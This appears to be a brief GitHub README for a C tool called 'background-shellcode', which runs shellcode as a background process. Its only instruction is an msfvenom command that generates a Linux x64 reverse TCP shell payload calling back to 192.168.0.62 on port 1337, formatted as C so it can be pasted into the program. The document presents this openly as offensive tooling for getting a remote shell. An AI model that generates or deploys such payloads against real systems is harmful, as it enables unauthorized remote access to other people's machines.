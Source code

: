 # background-shellcode
Execute a shellcode in background, coded in C.

Generate with msfvenom or use your shellcode:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.62 LPORT=1337 -f c
```
and add on code.
